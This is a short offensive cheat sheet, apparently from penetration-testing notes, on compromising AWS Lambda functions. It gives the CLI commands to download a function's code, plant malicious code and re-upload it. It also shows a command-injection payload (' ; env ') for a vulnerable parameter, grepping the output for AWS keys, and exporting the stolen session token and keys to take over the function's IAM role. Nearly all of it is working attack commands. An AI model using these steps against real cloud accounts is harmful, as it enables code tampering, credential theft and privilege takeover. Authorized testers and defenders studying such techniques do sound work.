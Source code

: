 # Code Injection

## Upload malicious code

Download lambda source code, unzip the archive alter the source code and create a new archive containing the malicious code

```
wget $(aws lambda get-function --function-name "<function>" --query Code.Location --output text) -O "./source.zip"
mkdir dump
unzip "source.zip" -d ./dump
cd dump
<edit the source code>
zip -r ../compromised.zip ./*
```

Upload the source code

```
aws lambda update-function-code --region <region> --function-name <function> --zip-file fileb://compromised.zip
```

Run code

```
aws lambda invoke --function-name <function> output.json
```

Run with parameters. Use the payload switch and specify your parameters inside a json file stored on your local machine or in the home folder of AWS Cli session

```
aws lambda invoke --function-name <function> --payload fileb://<path>.json output.json
```

## RCE to IAM Role Compromise

Create a payload json file like follows

```
{
    "<vunerable param>": " ; env "
}
```

Invoke Lambda function with specified payload and store output in json file

```
 aws lambda invoke --function-name <function name> --payload fileb://payload.json output.json
```

Search for credentials in output

```
cat output.json | jq -r . | grep AWS
```

Configure local account to impersonate role

```
export AWS_SESSION_TOKEN=<session token>
export AWS_SECRET_ACCESS_KEY=<access key value>
export AWS_ACCESS_KEY_ID=<access key name>
```

